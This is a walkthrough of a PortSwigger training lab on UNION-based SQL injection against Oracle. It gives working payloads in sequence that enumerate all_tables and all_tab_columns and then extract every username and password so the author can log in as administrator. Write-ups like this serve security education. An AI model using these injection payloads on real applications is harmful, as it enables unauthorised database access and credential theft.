 # Lab: SQL injection attack, listing the database contents on Oracle

Lab-Link: <https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)

## Known information

- SQL injection vulnerability in product category filter
- Database type: Oracle
- Results are returned, common injection
- UNION based attack vector
- Goals:
  - Retrieve name of user table
  - Retrieve column information of that table
  - Extract usernames and passwords for all users
  - Login as `administrator` user

## Query

The query might be something like

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

## Steps

The first steps are identical with the labs [SQL injection UNION attack, determining the number of columns returned by the query](../SQL_injection_UNION_attack,_determining_the_number_of_columns_returned_by_the_query/README.md) and [SQL injection UNION attack, finding a column containing text](../SQL_injection_UNION_attack,_finding_a_column_containing_text/README.md) and are not repeated here.

The number of colums in this case is 2, with both being string columns.

### Find users table

The database in use here is Oracle, which holds the table information in the `all_tables`-table. In the [relevant documentation](https://docs.oracle.com/en/database/oracle/oracle-database/21/refrn/ALL_TABLES.html#GUID-6823CD28-0681-468E-950B-966C6F71325D) the available columns are listed. We are interested in `table_name`. So inject `' UNION SELECT table_name, null from all_tables--` into the parameter to form the following query:

I also select an invalid category so that only my output appears.

```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT table_name, null from all_tables--'`
```

![name of users table](img/found_users_table.png)

### Enumerate colums in this table

The [all_tab_columns](https://docs.oracle.com/en/database/oracle/oracle-database/21/refrn/ALL_TAB_COLUMNS.html#GUID-F218205C-7D76-4A83-8691-BFD2AD372B63)-table holds information about the colums of each table, specifically the `column_name` column. The proper string to inject is `' UNION SELECT column_name, null from all_tab_columns WHERE table_name = 'USERS_TOAEAL'--` to form this query

 ```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT column_name, null from all_tab_columns WHERE table_name = 'USERS_TOAEAL'--'`
```

![username and password columns](img/username_and_password_columns.png)

### Enumerate all usernames and passwords

Now we have all information to obtain the required usernames and passwords. Inject `' UNION SELECT USERNAME_DINZLR, PASSWORD_BTNGGB from USERS_TOAEAL--` to form this query:

```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT USERNAME_DINZLR, PASSWORD_BTNGGB from USERS_TOAEAL--'`
```

![usernames and passwords](img/username_and_passwords.png)

Now simply login to solve this excercise.

![success](img/success.png)
